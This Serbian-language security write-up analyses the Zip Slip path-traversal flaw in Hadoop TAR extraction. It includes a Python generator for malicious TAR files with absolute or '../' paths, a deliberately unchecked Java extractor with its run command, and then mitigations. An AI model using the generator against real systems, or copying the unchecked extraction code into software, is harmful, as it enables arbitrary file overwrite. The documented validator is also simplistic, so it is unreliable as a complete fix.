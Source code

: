 ## Zip Slip - analiza

Zip Slip je ranjivost koja se ispoljava prilikom obrade arhivskih fajlova, npr. ZIP i TAR. Ova ranjivost omogućava napadačima da iskoriste nebezbednu logiku raspakivanja fajlova kako bi zapisali zlonamerni sadržaj na neautorizovane lokacije u fajl sistemu.

Glavni uzrok ranjivosti leži u tome što aplikacija ne proverava putanje fajlova unutar arhive. Napadači mogu kreirati arhive koje sadrže fajlove sa apsolutnim putanjama (npr. `C:/Windows/System32`) ili relativnim putanjama koje koriste `../` za vraćanje u prethodne direktorijume. Tokom procesa raspakivanja, ako aplikacija slepo veruje ovim putanjama, može se desiti da zlonamerni fajlovi budu upisani van ciljnog direktorijuma, čime se ugrožava bezbednost sistema.

Primeri pajton skripte za kreiranje malicioznog TAR fajla:
```python
import tarfile
import io

def create_malicious_tar(tar_path, target_file_path, content):
    with tarfile.open(tar_path, "w") as tar:
        # Create a file-like object from the content (bytes)
        fileobj = io.BytesIO(content.encode('utf-8'))
        
        # Create the TarInfo object with the path where you want to extract the file
        tarinfo = tarfile.TarInfo(name=target_file_path)
        tarinfo.size = len(content)  # Set the size of the file

        # Add the file to the TAR archive
        tar.addfile(tarinfo, fileobj=fileobj)

    print(f"Malicious TAR created at: {tar_path}")

# Specify where the file should be unpacked
target_file_path = "C:\\Windows\\System32\\malicious.txt"  # Example of absoulute path
# target_file_path = ..\\..\\malicious.txt"  # Example of relative path
# target_file_path = extracted\\malicious.txt"  # Example of safe path

tar_path = "malicious.tar"

# The content of the file to be packed in the TAR file
content = "This is a malicious file that will be unpacked to a specific directory."

# Create the malicious TAR
create_malicious_tar(tar_path, target_file_path, content)
```

Ranjivost se kod Hadoop sistema moze eksploatisati tako sto se maliciozni TAR fajl prebaci u HDFS i njegovo ekstraktovanje izvrsi pomocu Java programa koji nebezbedno rukuje putanjama na koje treba da se ekstraktuje TAR fajl. Takav Java program je dat u nastavku:

```java
import org.apache.commons.compress.archivers.tar.TarArchiveInputStream;
import org.apache.hadoop.fs.FileSystem;
import org.apache.hadoop.fs.Path;
import org.apache.hadoop.conf.Configuration;
import org.apache.hadoop.fs.FSDataInputStream;

import java.io.IOException;
import java.io.InputStream;
import java.io.FileOutputStream;
import java.io.BufferedOutputStream;
import java.io.File;

public class ExploitHadoopTar {

    public static void main(String[] args) throws IOException {
        if (args.length != 1) {
            System.out.println("Usage: HadoopTarExploit <path-to-tar-file>");
            System.exit(1);
        }

        // Get TAR file path from arguments
        String tarFilePath = args[0];

        // Configuration for Hadoop FileSystem (you may need to adjust this based on your Hadoop setup)
        Configuration conf = new Configuration();
        FileSystem fs = FileSystem.get(conf);

        // Open the malicious TAR file from HDFS
        Path hdfsTarFilePath = new Path(tarFilePath);  // HDFS path
        try (FSDataInputStream tarFileStream = fs.open(hdfsTarFilePath);
             TarArchiveInputStream tarInputStream = new TarArchiveInputStream(tarFileStream)) {

            // Iterate over the TAR entries and extract them
            org.apache.commons.compress.archivers.tar.TarArchiveEntry entry;
            while ((entry = tarInputStream.getNextTarEntry()) != null) {
                String entryName = entry.getName();
                System.out.println("Extracting: " + entryName);

                // Create the local extraction file
                File extractionFile = new File(entryName);  // Local path (relative to current directory or absolute path)

                // If the entry is a directory, create the directory on the local filesystem
                if (entry.isDirectory()) {
                    extractionFile.mkdirs();
                    continue;  // Skip to the next entry
                }

                // Ensure the parent directory exists
                File parentDir = extractionFile.getParentFile();
                if (parentDir != null && !parentDir.exists()) {
                    parentDir.mkdirs();
                }

                // Create the output stream to write the extracted file locally
                try (BufferedOutputStream outputStream = new BufferedOutputStream(new FileOutputStream(extractionFile))) {
                    byte[] buffer = new byte[1024];
                    int bytesRead;
                    while ((bytesRead = tarInputStream.read(buffer)) != -1) {
                        outputStream.write(buffer, 0, bytesRead);
                    }
                }

                System.out.println("Extracted to: " + extractionFile.getAbsolutePath());
            }

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
Pokretanjem ovog Java programa doci ce do raspakivanja TAR fajla na putanje koje su podesene u TAR fajlu bez ikakve provere validnosti tih putanja. Pokretanje se vrsi komandom: `hadoop jar path/to/jar/ExploitHadoopTar.jar ExploitHadoopTar path/to/tar/on/hdfs/malicious.tar`.


### Bezbednosne kontrole

1. Validacija raspakovanih putanja prilikom raspakivanja
2. Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ogranicenjima za pisanje i citanje

#### Validacija raspakovanih putanja prilikom raspakivanja
Validacija putanja se ogleda u proveri da li je putanja apsolutna i da li sadrzi `../` za povratak u roditeljski direktorijum. U nastavku je prikazana funkcija za validaciju i izmenjeni deo koda iz prethodnog primera:
```java
private static boolean isPathValid(String entryName) {
    // Check if the path is absolute
    File entryFile = new File(entryName);
    if (entryFile.isAbsolute()) {
        return false;
    }

    // Check if the path contains '../'
    String normalizedPath = entryFile.getPath().replace("\\", "/"); // Normalize path for cross-platform compatibility
    if (normalizedPath.contains("../")) {
        return false;
    }

    return true;
}

...

// Add check in example code
if (!isPathValid(entryName)) {
    System.out.println("Invalid path: " + entryName);
    continue;
}
```

#### Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ogranicenjima za pisanje i citanje
Celi problem se moze preduprediti time sto ce se Hadoop aplikacija pokrenuti tako da nema dozvole za pisanje i citanje na bilo kojoj putanji u fajl sistemu. Potrebno je kreirati korisnika koji ce imati dozvoljeno pisanje i citanje samo iz odredjenih fajlova. Citanje treba biti dozvoljeno u okviru foldera gde je instaliran Hadoop radi mogucnosti citanja konfiguracionih fajlova kao i pristupa podacima u HDFS. Putanje za upisivanje novih podataka je potrebno podesiti po potrebama sistema. Ukoliko se koristi Hadoop MapReduce sistem, potrebno je tacno definisati iz kog direktorijuma je dozvoljeno citanje ulaznih podataka kao i u koji direktorijum je dozvoljeno upisivanje rezultata. Takva provera je potrebna samo ukoliko se barata podacima sa lokalnog racunara, a ne direktno iz HDFS. 

Ovakav sistem zastite je sproveden na nivou operativnog sistema pa se nacini implementacije mogu razlikovati. Sustina je da se kreira novi korisnik u operativnom sistemu i da mu se dodele dozvnoljeni direktorijume u koje moze da upisuje i cita fajlove, a da se ostali zabrane. Nakon toga je potrebno Hadoop pokrenuti sa permisijama tog korisnika.
